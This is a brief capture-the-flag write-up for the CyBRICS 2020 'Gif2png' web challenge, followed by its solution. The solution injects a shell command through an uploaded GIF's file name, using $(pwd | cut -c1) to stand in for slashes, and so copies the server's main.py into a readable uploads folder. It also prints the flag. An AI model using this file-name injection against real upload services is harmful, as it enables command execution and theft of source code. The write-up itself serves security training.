 ## Gif2png (Web)

Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))

The webdev department created another cool startup. Here you can convert any animated GIF to PNG images. 

It's only left to figure out how to monetize it: [gif2png-cybrics2020.ctf.su](gif2png-cybrics2020.ctf.su)

[src](./gif2png.tar.gz)

---

## Solution

1. Generate uid (upload valid gif and check url part after /result/)

2. Build payload `'$(cp main.py uploads$(pwd | cut -c1)GENERATED_UID$(pwd | cut -c1))'.gif`

3. In new upload request set `filename="BUILT_PAYLOAD"`

4. Check url `http://gif2png-cybrics2020.ctf.su/uploads/GENERATED_UID/main.py` and find `ffLaG`

flag is `cybrics{imagesaresocoolicandrawonthem}`
